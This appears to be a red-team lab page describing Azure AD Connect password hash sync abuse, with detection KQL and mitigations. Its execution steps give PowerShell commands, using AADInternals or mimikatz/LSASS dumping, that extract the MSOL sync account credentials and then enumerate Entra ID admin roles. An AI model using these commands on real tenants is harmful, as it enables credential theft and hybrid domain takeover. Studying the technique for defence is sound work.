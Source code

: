 # Attack Scenario: Azure AD Connect Password Hash Sync Abuse
Azure AD Connect with Password Hash Synchronization (PHS) enables organizations to sync password hashes from on-prem Active Directory to Entra ID (Azure AD). If an attacker compromises the on-prem environment and gains access to the AAD Connect server, they can extract credentials and pivot into cloud infrastructure.

This is a hybrid domain takeover technique.

## MITRE ATT&CK Techniques:
- T1552.001 – Unsecured Credentials: Credentials in Files
- T1003.006 – OS Credential Dumping: DCSync
- T1087.004 – Account Discovery: Cloud Account

## Lab Environment
- **On-prem Domain:** internal.lab
- **Azure AD:** Connected tenant via AAD Connect
- **AAD Connect server with local admin access**
- **Admin credentials synced between AD and Azure**
- **Tools:** AADInternals, mimikatz, PowerShell

## Objectives
- Extract AAD Connect credentials
- Abuse MSOL account or admin token
- Enumerate or access Azure resources (e.g., Graph, Office 365, Entra ID)

## Execution Steps
### 1. Identify AAD Connect Server
From any privileged AD context:

```Get-ADComputer -Filter * | Where-Object { $_.Name -like "*AAD*" }```
Or:

```Get-ADUser -Filter * | Where-Object { $_.Name -like "*MSOL*" }```
### 2. Extract AAD Connect Credentials (local access)
Use mimikatz or AADInternals on the AAD Connect host:
```
Import-Module .\AADInternals.ps1
Get-AADIntSyncCredentials
```
Or manually dump the LSASS memory and parse the MSOL_ user password.

### 3. Use the MSOL Account for Cloud Access
Log in via PowerShell:
```
$creds = Get-Credential
Connect-MsolService -Credential $creds
```
Check privileges:
```
Get-MsolUser | Select-Object DisplayName, isLicensed
Get-MsolRoleMember -RoleObjectId (Get-MsolRole -RoleName "Company Administrator").ObjectId
```
Enumerate Entra ID:
```
Connect-AzAccount -Credential $creds
Get-AzUser
Get-AzRoleAssignment
```

## Detection Guidance
### Logs and Indicators
- Unusual MSOL or legacy account logins
- Entra ID logins from on-prem IPs or user agents like PowerShell or legacy clients
- Sudden admin role assignments or token refreshes

### KQL – Suspicious MSOL Logins

```
SigninLogs
| where UserPrincipalName contains "microsoft.online"
| where AppDisplayName == "PowerShell"
| where IPAddress !in (known IP ranges)
```
## Mitigations
- Do not use directory-wide admin accounts in sync scope
- Rotate MSOL_ passwords regularly
- Implement Azure AD Conditional Access with MFA
- Harden AAD Connect server (no internet, limited RDP, EDR coverage)

## References
- https://o365blog.com/aadinternals/
- https://dirkjanm.io/azuread-connect-for-redteam/
- https://attack.mitre.org/techniques/T1552/001/
- https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-hybrid-identity

## Navigation
[Back to Lab Index:](../../README.md)
[Next: Token Theft via Refresh Tokens](./token-theft.md)